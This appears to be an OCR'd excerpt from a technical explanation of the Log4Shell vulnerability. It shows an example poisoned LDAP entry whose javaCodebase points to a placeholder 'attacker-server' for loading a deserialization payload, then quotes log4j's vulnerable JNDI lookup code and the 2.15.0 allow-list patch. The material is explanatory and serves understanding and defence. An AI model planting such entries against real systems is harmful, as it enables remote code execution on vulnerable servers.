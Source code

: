An attacker can then provide a Poisoned LDAP entry by placing the `javaSerializedData` attribute:

``` ldap
ObjectClass: inetOrgPerson
UID: someGuy
Name: Some Guy
Email Address: someGuy@someCompany.org
Location: Somewhere, SW
javaSerializedData: 94E2375DC52E94EBA42C4CB7F5492377...
javaCodebase: http://attacker-server/
javaClassName: DeserializationPayload
```

### Log4j's usage of JNDI

in log4j2 release tagged `rel/2.14.1`[^ap2] (last affected version), you can see the JNDI Manager making a direct lookup via `javax.naming.Context.lookup` at [apache/logging-log4j2@be881e503e JndiManager.java L170-L173](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L170-L173)

``` java
import javax.naming.Context;
import javax.naming.NamingException;

public class JndiManager extends AbstractManager {

    private final Context context;

    @SuppressWarnings("unchecked")
    public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
    }

}
```

The patched version, `rel/2.15.0`, attempts to mitigate this with [pull #608](https://github.com/apache/logging-log4j2/pull/608) by introducing extensive input validation prior to this lookup.

For example, a simple check taken from a snippet of the new method:

``` java
public synchronized <T> T lookup(final String name) throws NamingException {
    try {
        URI uri = new URI(name);
        if (uri.getScheme() != null) {
            if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                if (!allowedHosts.contains(uri.getHost())) {
                    LOGGER.warn("Attempt to access ldap server not in allowed list");
                    return null;
                }
            }
        }
    }

    // ...

    return (T) this.context.lookup(name);
}
```
